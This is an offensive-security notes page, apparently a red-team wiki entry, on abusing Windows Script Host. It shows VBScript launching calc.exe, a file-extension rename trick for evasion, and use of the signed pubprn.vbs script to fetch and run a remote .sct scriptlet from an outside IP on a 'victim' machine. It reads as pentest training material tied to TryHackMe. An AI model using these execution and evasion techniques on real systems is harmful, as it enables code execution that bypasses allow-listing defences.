 # Windows Scripting Host (WSH)

## Theory

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system. It is a Windows native engine, cscript.exe (for command-line scripts) and wscript.exe (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe.

## Practice


{% tabs %}

{% tab title="Basic Usage" %}
let's use the VBScript to run executable files. The following vbs code is to invoke the Windows calculator, proof that we can execute .exe files using the Windows native engine (WSH).

```bash
#openCalc.vbs
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

We can now execute the vbs script on the target machine
```bash
cscript.exe c:\Users\Veresk\Desktop\openCalc.vbs
wscript.exe c:\Users\Veresk\Desktop\openCalc.vbs
```

A trick is to change the .vbs extension by a randomly choosen one.
```bash
wscript.exe /e:VBScript c:\Users\Veresk\Desktop\openCalc.odt
```
{% endtab %}

{% tab title="pubprn.vbs" %}

Using [pubprn.vbs](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc753116(v=ws.11)), we will execute code to launch calc.exe. First of, the xml that will be executed by the script:

```bash
#http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"   
	>
</registration>

<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");	
]]>
</script>

</scriptlet>
```
On the victime computer:
```bash
cscript /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
```


{% endtab %}

{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/weaponization" %}
{% embed url="https://www.ired.team/offensive-security/code-execution/t1216-signed-script-ce" %}
